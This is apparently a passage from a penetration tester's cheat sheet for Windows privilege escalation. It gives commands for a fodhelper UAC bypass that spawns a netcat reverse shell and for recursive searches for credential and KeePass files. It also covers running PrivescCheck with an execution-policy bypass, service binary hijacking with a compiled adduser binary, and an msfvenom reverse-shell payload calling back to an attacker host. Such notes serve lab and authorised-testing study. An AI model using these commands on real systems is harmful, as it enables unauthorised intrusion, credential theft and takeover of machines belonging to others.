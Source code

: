 if you’re in the Administrators group, upload nc.exe. Modify `$program` in the script to spawn a netcat reverse shell.

https://github.com/winscripting/UAC-bypass/blob/master/FodhelperBypass.ps1
#### PowerShell History

```powershell
Get-History  
(Get-PSReadlineOption).HistorySavePath  
type <path>
```
#### Files

```Shell

Get-ChildItem -Path C:\Users -Include *.txt,*.ini,*.pdf,*.kdbx,*.exe -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

```

Check `C:\` for any weird folders.
#### Enumeration Scripts

Two most important privesc scripts: [**PrivescCheck.ps1**](https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1) and [**winPEASany.exe**](https://github.com/carlospolop/PEASS-ng/releases)

- **PrivescCheck** - look at every section that says KO in the table at the end except the missing patches one. It’ll catch unquoted service paths, service binaries you can overwrite, scheduled tasks, etc.

```powershell
# One-liner to bypass execution policy, import and run the script.
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

-  WinPEAS will find some things PrivescCheck won’t like autologon creds. Don’t spend too much time on it just look for anything really obvious that stands out.
#### Windows Services

All of this likely would have been caught with PrivescCheck, but if you want to double-check manually.
##### Binary Hijacking

```powershell

Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

icacls "C:\xampp\apache\bin\httpd.exe"

# Replace with adduser script, edit adduser.c if you have to, compile 

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

# Alternatively, msfvenom payload, don't use meterpreter + use a stageless payload

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=445 -f exe -o payload.exe

# Check Startup type
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

# With shutdown privlege
shutdown /r /t 0 

```